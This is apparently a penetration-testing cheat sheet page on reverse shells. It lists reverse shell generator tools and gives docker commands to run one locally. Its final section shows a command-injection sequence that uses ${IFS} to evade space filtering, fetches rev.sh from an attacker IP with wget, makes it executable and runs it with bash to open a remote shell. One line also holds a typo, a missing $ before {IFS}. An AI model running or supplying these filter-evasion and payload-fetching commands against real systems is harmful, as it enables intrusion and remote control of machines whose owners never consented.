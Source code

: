 !!! info ""

    #### sources

    - [Reverse Shells](https://reverse-shell.sh/)
    - [Online - Reverse Shell Generator](https://www.revshells.com/)
    - [ShutdownRepo/shellerator](https://github.com/ShutdownRepo/shellerator)
    - [0x00-0x00/ShellPop](https://github.com/0x00-0x00/ShellPop)
    - [cybervaca/ShellReverse](https://github.com/cybervaca/ShellReverse)
    - [pyminifier](https://liftoff.github.io/pyminifier/)
    - [xct/xc](https://github.com/xct/xc/)
    - [Reverse Shell Generator](https://weibell.github.io/reverse-shell-generator/)
    - [t0thkr1s/revshellgen](https://github.com/t0thkr1s/revshellgen)
    - [mthbernardes/rsg](https://github.com/mthbernardes/rsg)
    - [My Pentest Tools](https://tex2e.github.io/reverse-shell-generator/index.html)

!!! info ""
    
    #### 0dayctf
    
    [0dayctf](https://github.com/0dayCTF/reverse-shell-generator)

    ```shell
    wget https://github.com/0dayCTF/reverse-shell-generator/archive/refs/heads/main.zip
    unzip main.zip
    cd reverse-shell-generator-main
    docker build -t reverse_shell_generator .
    docker run -d -p 8090:80 reverse_shell_generator

    http://127.0.0.1:8090
    ```

!!! info ""

    #### Bash IFS - Reverse Shell - Burp Repeater - PHP

    - IFS Internal Field Separator
    - The special shell variable _IFS_ determines how Bash recognizes word boundaries while splitting a sequence of character strings.
    - The default value of _IFS_ is a three-character string comprising a space, tab, and newline

    ```shell
    ls${IFS}-la
    ping${IFS}127.0.0.1
    wget${IFS}http://10.10.10.10:8888/rev.sh
    chmod${IFS}777{IFS}rev.sh
    bash${IFS}rev.sh
    ```
